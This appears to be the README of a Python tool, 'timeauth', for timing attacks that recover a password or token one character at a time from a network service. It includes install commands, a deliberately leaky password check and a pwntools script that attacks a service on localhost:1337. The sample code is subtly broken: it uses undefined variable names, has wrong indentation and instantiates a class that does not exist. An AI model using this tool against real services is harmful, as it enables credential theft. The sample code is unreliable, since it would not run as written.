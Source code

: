 # Time Authentication Attack Tool

Python Time Based Authentication Attack Tool

## Development

You can contribute by sending merge requests and/or issues on this github opensource project.

## Demo:

https://asciinema.org/a/126529
![Alt Text](./demo.gif)

## Usage:

### Installation

You can install this package by launching:

```sh
> git clone git@github.com:SakiiR/timeauth.git
[...]
> pip install ./timeauth/
> # Done
```

### Examples

Suppose that we have a listenning tcp service on `localhost:1337` waiting for a password input. 
What if the code behind this TCP service have been done by a weird developer and checks your input char by char
and sleeping each time it checks your char ( or do a BIG action on his server that take some time ).

```sh
> nc localhost 1337
Hello !
password please: SakiiR
Bad Password ! BYE BYE
[!] Closed connection ..
```

And the following backend password verification:

```py
def check_password(input, real):
    if(len(input_flag) == 0):
            return False
        for left, right in zip_longest(input_flag, flag):
            if(left != right):
                return False
            sleep(0.25) # prevent brute forcing
        return True
```

This package has been made to make exploitation of this kind of service faster by implementating a Single Class.

exemple:

```py
from pwn import remote, context
from timeauth import TimeAuthChecker


class ExampleChecker(TimeAuthChecker):

    def __init__(self):
        super(self.__class__, self).__init__(
            charset="0123456789",
            token_length=10,
            hidden_char="*"
        )

    def request(self):

        context.log_level = 'error'
        s = remote('localhost', 1337)
        s.recvuntil(':')
        s.sendline(self.get_token())
        s.readall()
        s.close()
        context.log_level = 'info'

if __name__ == "__main__":
    a = RootmeChecker()
    a.process()
    a.print_token()
```
### Todo

* Add a Time Based SQL Injection Module
* Add a Blind SQL Injection Module

